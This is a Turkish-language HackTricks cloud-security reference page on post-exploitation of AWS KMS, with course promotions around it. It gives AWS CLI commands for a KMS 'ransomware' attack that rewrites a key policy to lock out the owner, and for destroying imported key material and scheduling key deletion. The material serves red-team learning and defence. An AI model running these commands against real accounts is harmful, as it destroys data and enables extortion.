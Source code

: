 # AWS - KMS Post Exploitation

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## KMS

Daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Bilgileri Şifrele/Şifre Çöz

{% hint style="success" %}
Bir dosya içindeki verileri şifre çözmek istiyorsanız, dosyanın ikili verileri içermesi gerektiğini, base64 kodlu verileri değil, unutmayın.
{% endhint %}

* **simetrik** bir anahtar kullanarak
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* **Asimetrik** bir anahtar kullanma:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS Ransomware

KMS üzerinde ayrıcalıklı erişime sahip bir saldırgan, anahtarların KMS politikasını değiştirebilir ve **kendi hesabına erişim verebilir**, meşru hesaba verilen erişimi kaldırabilir.

Bu durumda, meşru hesap kullanıcıları, bu anahtarlarla şifrelenmiş herhangi bir hizmetin bilgilerine erişemeyecek, bu da hesap üzerinde kolay ama etkili bir fidye yazılımı oluşturacaktır.

{% hint style="warning" %}
**AWS yönetilen anahtarların** bu saldırıdan etkilenmediğini unutmayın, yalnızca **Müşteri yönetilen anahtarlar** etkilenmektedir.

Ayrıca, **`--bypass-policy-lockout-safety-check`** parametresinin kullanılma gereğini unutmayın (bu seçeneğin web konsolunda olmaması, bu saldırının yalnızca CLI üzerinden mümkün olmasını sağlar).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Not edin ki, eğer o politikayı değiştirir ve yalnızca bir dış hesaba erişim verirseniz, ardından bu dış hesaptan **erişimi orijinal hesaba geri vermek için yeni bir politika ayarlamaya çalışırsanız, bunu yapamazsınız**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### Genel KMS Fidye Yazılımı

#### Küresel KMS Fidye Yazılımı

Küresel KMS Fidye Yazılımı gerçekleştirmek için başka bir yol vardır, bu aşağıdaki adımları içerecektir:

* Saldırgan tarafından içe aktarılan **anahtar materyali ile yeni bir anahtar oluşturun**
* Önceki sürümle şifrelenmiş **eski verileri yeni anahtar ile yeniden şifreleyin**.
* **KMS anahtarını silin**
* Artık yalnızca orijinal anahtar materyaline sahip olan saldırgan, şifrelenmiş verileri çözebilir

### Anahtarları Yok Et
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
AWS'nin artık **önceki eylemlerin bir çapraz hesap üzerinden gerçekleştirilmesini engellediğini** unutmayın:
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
